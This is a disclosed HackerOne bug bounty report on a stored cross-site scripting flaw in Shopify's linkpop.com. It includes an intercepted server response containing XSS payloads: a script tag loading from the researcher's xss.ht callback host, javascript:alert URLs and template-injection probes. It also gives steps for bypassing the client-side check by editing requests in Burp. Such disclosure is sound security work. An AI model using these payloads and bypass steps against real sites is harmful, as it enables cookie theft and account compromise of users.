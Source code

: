 # Stored XSS at https://linkpop.com

## Report Details
- **Report ID**: 1441988
- **URL**: https://hackerone.com/reports/1441988
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-01-05T19:15:00.304Z
- **Disclosed**: 2022-01-20T19:08:52.986Z

## Reporter
- **Username**: nagli
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:

There is Stored XSS vulnerability at 

`https://linkpop.com/dashboard/admin` that can later be delivered through unique linkpop link.

This is due to lack of sanitizaiton and relying on client side protections when inserting urls to our applications.

This is the client side protection error:

{F1569111}

Easily bypassed just by tampering with burp

```
HTTP/1.1 200 OK
Cookies

{"data":{"pageUpdate":{"page":{"id":"12617","slug":"testnaglinagli","title":"\"\u003e\u003ch1\u003enagli\u003c/h1\u003e\"\u003e\u003cscript sr","bio":"\"\u003e\u003cScript src=https://naglinagli.xss.ht\u003e\u003c/script\u003e${7*7}{{7*7}}","media":{"id":"36361","signedBlobId":"eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaHBBZ21PIiwiZXhwIjpudWxsLCJwdXIiOiJibG9iX2lkIn19--84ffd51a70b79ab6faaec2d6c3e7cca38f907f30","url":"https://cdn.shopify.com/b/shopify-linkpop-prod/q85t5nppud8qfjo1dvg0ql3p01oe.png","__typename":"Media"},"themeSettings":{"backgroundColor":"#F0EFEC","fontColor":"#000","primaryFont":"Roboto","secondaryFont":""},"__typename":"Page"},"errors":null,"__typename":"PageUpdatePayload"},"linksCreate":{"page":{"id":"12617","links":[{"id":"254183","title":"\"\u003e\u003ch1\u003etesT\u003c/h1\u003e${7*7}{{7*7}}","url":"javascript:alert(document.domain)","media":{"id":"36362","signedBlobId":"eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaHBBZ3FPIiwiZXhwIjpudWxsLCJwdXIiOiJibG9iX2lkIn19--54c67556358d19ddba24dd01f4130d1b2641b16f","url":"https://cdn.shopify.com/b/shopify-linkpop-prod/u7qrfhm16ma74bf3tvwn2lun4vn1.png","__typename":"Media"},"__typename":"ExternalLink"}],"socialMediaAccounts":[{"id":"30879","handle":"javascript:alert(1)","network":"facebook","__typename":"SocialMediaAccount"},{"id":"30878","handle":"javascript:alert(1)","network":"shop","__typename":"SocialMediaAccount"}],"__typename":"Page"},"errors":null,"__typename":"LinksCreatePayload"}}}
```

{F1569112}

{F1569113}

I reached this service of yours through some manual navigations on shopify.com and shopifycloud.com, I can see that it's also whitelisted on your OAuth redirects.

## Steps To Reproduce:
[add details for how we can reproduce the issue]

  1. Navigate to www.linkpop.com
  2. Login to your account
  3. Create new template
  4. Capture the request, change the "url" param to javascript:alert(document.domain)
  5. Click on "Copy Link"
  6. Now you have shareable link - click on the first image -> https://linkpop.com/testnaglinagli

The XSS worked for me on FireFox.

Best Regards

@nagli

## Impact

Cookies Exfiltration
CORS Bypass
SOAP Bypass
Executing Javascript on the victims behalf.

## Attachments
- Screen_Shot_2022-01-05_at_21.08.31.png
- Screen_Shot_2022-01-05_at_21.12.07.png
- Screen_Recording_2022-01-05_at_21.08.54.mov
- Screen_Shot_2022-01-05_at_21.13.29.png
